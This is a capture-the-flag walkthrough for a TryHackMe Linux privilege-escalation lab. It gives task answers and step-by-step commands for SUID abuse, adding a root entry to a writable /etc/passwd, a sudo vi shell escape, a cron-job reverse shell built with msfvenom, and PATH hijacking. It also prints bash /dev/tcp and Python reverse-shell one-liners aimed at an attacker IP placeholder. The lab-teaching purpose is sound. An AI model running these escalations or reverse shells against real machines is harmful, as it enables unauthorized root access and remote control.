 #  TryHackMe - Common Linux Privesc (Room 004)

## Important Information

To start this test, login using the credentials __user3:password__

<details><summary>Tasks 4.1 - 4.5</summary>
<p>

## Task 4.1

#### Q: What is the target's hostname?

A: polobox

Walkthrough: Learnt through __LinEnum.sh__ or by running the `hostname` command

![](/Common%20Linux%20Privesc/images/hostname_through_linenum.png)
![](/Common%20Linux%20Privesc/images/hostname_through_command.png)

## Task 4.2

#### Q: Look at the output of /etc/password. How many "user[x]" are there on the system?

A: 8

Walkthrough: Learnt through __LinEnum.sh__ or by running the `cat /etc/passwd` command

![](/Common%20Linux%20Privesc/images/passwd_through_linenum.png)
![](/Common%20Linux%20Privesc/images/passwd_through_command.png)

## Task 4.3

#### Q: How many available shells are there on the system?

A: 4

Walkthrough: Learnt through __LinEnum.sh__ or by running the `cat /etc/shells` command

![](/Common%20Linux%20Privesc/images/shells_through_linenum.png)
![](/Common%20Linux%20Privesc/images/shells_through_command.png)

## Task 4.4

#### Q: What is the name of the bash script that is set to run every 5 minutes by cron?

A: autoscript.sh

Walkthrough: Learnt through __LinEnum.sh__ or by running the `cat /etc/crontab` command

![](/Common%20Linux%20Privesc/images/crontab_through_linenum.png)
![](/Common%20Linux%20Privesc/images/crontab_through_command.png)

## Task 4.5

#### What critical file has had its permissions changed to allow some users to write to it?

A: /etc/passwd

Walkthrough: Learnt through __LinEnum.sh__ or by running the `ls -l /etc/passwd` command

![](/Common%20Linux%20Privesc/images/sens_through_linenum.png)
![](/Common%20Linux%20Privesc/images/sens_through_command.png)

</p>
</details>

<details><summary>Tasks 5.1 - 5.3</summary>
<p>

## Task 5.1

### What is the path of the file in user3's directory that stands out to you?

A: /home/user3/shell

Walkthrough: Learnt through the [`find`](https://github.com/ComplexSec/tryhackme/blob/master/Common%20Linux%20Privesc/notes.md) command located in notes.md

![](/Common%20Linux%20Privesc/images/find_suid.png)

## Task 5.2 - no answer needed

We know that "shell" is a SUID bit file, therefore running it will run the script as a root user. Run it

## Task 5.3 - no answer needed

You should have a root shell

![](/Common%20Linux%20Privesc/images/root_shell.png)

</p>
</details>

<details><summary>Tasks 6.1 - 6.6</summary>
<p>

## Task 6.1 - no answer needed

First, exit out of root by typing `exit` and swap to user using the `su -l user7` command. The password is __password__

## Task 6.2

### Q: What direction privilege escalation is this attack?

A: Vertical

Walkthrough: Learnt through the diagram at the very top

## Task 6.3

### Q: Before we add our new user, we first need to create a compliant password hash to add. We do this by using the command: "openssl passwd -1 -salt [salt] [password]"

### What is the hash created by using this command with the salt "new" and the password "123"?

A: $1$new$p7ptkEKU1HnaHpRtzNizS1

Walkthrough: Learnt through executing the command

![](/Common%20Linux%20Privesc/images/openssl.png)

## Task 6.4

### Now, we need to take this value and create a new root account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created?

A: new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

Walkthrough: Learnt through the [/etc/passwd format](https://github.com/ComplexSec/tryhackme/blob/master/Common%20Linux%20Privesc/notes.md) section inside in notes.md

## Task 6.6

### Q: Now, use "su" to login as the "new" account. You should be greeted with a root prompt

![](/Common%20Linux%20Privesc/images/root_shell2.png)

</p>
</details>

<details><summary>Tasks 7.1 - 7.4</summary>
<p>

## Task 7.1 - no answer needed

First, swap user to user8 with the password of `password` using the `su -l user8` command

## Task 7.2

### Q: Using the `sudo -l` command, what does user8 require (or not require) to run vi as root?

A: NOPASSWD

Walkthrough: Learnt through running the `sudo -l` command

## Task 7.3 - no answer needed

All we need to do is open vi as root by typing `sudo vi`

## Task 7.4 - no answer needed

Now, type `:!sh` to open a shell from Vi

![](/Common%20Linux%20Privesc/images/vi_shell.png)

</p>
</details>

<details><summary>Tasks 8.1 - 8.8</summary>
<p>

## Task 8.1 - no answer needed

Login as user4 with the password `password` using the `su -l user4` command

## Task 8.2 - no answer needed

Let's create a payload for our cron exploit using msfvenom

## Task 8.3

### Q: What is the flag to specify a payload in msfvenom?

A: `-p`

Walkthrough: Learnt through Google or through `msfvenom -h` command

![](/Common%20Linux%20Privesc/images/msfvenom_payload.png)

## Task 8.4 - no answer needed

Create a payload using `msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=8888 R`

![](/Common%20Linux%20Privesc/images/payload_generation.png)

## Task 8.5

### Q: What directory is the autoscript.sh under?

A: /home/user4/Desktop

## Task 8.6 - no answer needed

Replace the contents of the file with our payload using `echo <msfvenom> > autoscript.sh`

## Task 8.7 - no answer needed

After copying the code into autoscript.sh, start a netcat listener using the `nc -nvlp 8888` command on our Kali machine

![](/Common%20Linux%20Privesc/images/netcat_listen.png)

## Task 8.8 - no answer needed

After 5 minutes, we should get a shell

## Extra Task

In order to get a cleaner looking shell (known as TTY shell), try spawning one via the [NetSec list](https://netsec.ws/?p=337)

![](/Common%20Linux%20Privesc/images/spawn_ttyshell.png)

## Alternative Way without MSFVenom

Can create a shell without generating a payload using MSFVenom either through Bash, Python or other means

* Bash - `bash -i >& /dev/tcp/<IP>/8888 0>&1`
* Python - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker ip>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

![](/Common%20Linux%20Privesc/images/python_shell.png)

</p>
</details>

<details><summary>Tasks 9.1 - 9.7</summary>
<p>

## Task 9.1 - no answer needed

Login as user5 with the password `password` using the `su -l user5` command

## Task 9.2

### Q: Go to user5's home directory and run the file `script`. What command is it executing?

A: `ls`

Walkthrough: When ran, it lists the files. To list in files in Linux, the `ls` command is used

![](/Common%20Linux%20Privesc/images/script_ls.png)

## Task 9.3 - no answer needed

Now we know what command to imitate, change directory to /tmp

## Task 9.4

Now, create an imitation executable. The format is:

* `echo "<command>"" > <name of executable we imitate>`

### Q: What would the command look like to open a bash shell, writing to a file with the name of the executable we are imitating?

A: echo "/bin/bash" > ls

Walkthrough: `/bin/bash` is the command and `ls` is the command we are imitating

## Task 9.5

Now that the imitation is made, make it an executable

### Q: What command do you use?

A: chmod +x ls

## Task 9.6 - no answer needed

Next, you need to change the PATH variable, so it points to the directory where we have our imitation "ls". Done via the `export PATH=/tmp:$PATH` command

This will cause you to open a shell every time you use `ls`. To use the proper `ls` command, use `/bin/ls` instead

To reset the PATH variable, simply type `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH`

## Task 9.7

Change back to the home directory and run the `script` file again

![](/Common%20Linux%20Privesc/images/root_PATH.png)

</p>
</details>
